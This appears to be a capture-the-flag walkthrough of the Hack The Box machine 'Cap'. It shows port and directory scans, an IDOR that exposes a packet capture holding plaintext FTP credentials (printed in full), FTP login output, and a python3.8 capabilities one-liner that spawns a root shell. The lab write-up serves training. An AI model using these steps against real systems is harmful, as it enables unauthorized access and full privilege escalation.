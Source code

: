 # Cap

<figure><img src="../../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>







## Ports scan

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Wed, 21 Aug 2024 17:12:49 GMT
<SNIPPED>
```



## Dir scan

```bash
╰─➤  dirscan 10.10.10.245         

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.245/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

capture                 [Status: 302, Size: 222, Words: 21, Lines: 4, Duration: 5224ms]
data                    [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 195ms]
ip                      [Status: 200, Size: 17380, Words: 7260, Lines: 354, Duration: 157ms]
netstat                 [Status: 200, Size: 33344, Words: 16071, Lines: 494, Duration: 156ms]
:: Progress: [20476/20476] :: Job [1/1] :: 251 req/sec :: Duration: [0:01:23] :: Errors: 0 ::
                                                                                                     
```



## Web exploitation&#x20;

### IDOR

On homepage if we click on Security Snapshot...\
we are redirected to: [http://10.10.10.245/capture](http://10.10.10.245/capture)

**The redirection sends**: [http://10.10.10.245/data/5](http://10.10.10.245/data/5)\
![](<../../../.gitbook/assets/image (84).png>)



We can change data from `/5` to `/0`

We get a **0.pcap** file (packets)

If we follow the TCP stream of FTP packets, we get FTP username and password

```
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
```



## User

Through FTP, we get access to user's home directory

```bash
─➤  ftp 10.10.10.245                                                                                            130 ↵
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||59367|)
150 Here comes the directory listing.
drwxr-xr-x    5 1001     1001         4096 Aug 21 11:57 .
drwxr-xr-x    3 0        0            4096 May 23  2021 ..
lrwxrwxrwx    1 0        0               9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23  2021 .cache
drwx------    3 1001     1001         4096 Aug 21 11:57 .gnupg
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27  2021 .viminfo -> /dev/null
drwxr-xr-x    3 1001     1001         4096 Aug 21 11:56 snap
-r--------    1 1001     1001           33 Aug 21 09:47 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||56389|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |**************************************************************************|    33        0.23 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.05 KiB/s)
ftp> 

```

### SSH into the box to get user shell.

## Root&#x20;

As per the machine name, I search for linux capabilities and found the following article

{% embed url="https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/" %}

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)

```

\_\_\_\_\_\_\_\_\_heapbytes' still pwning
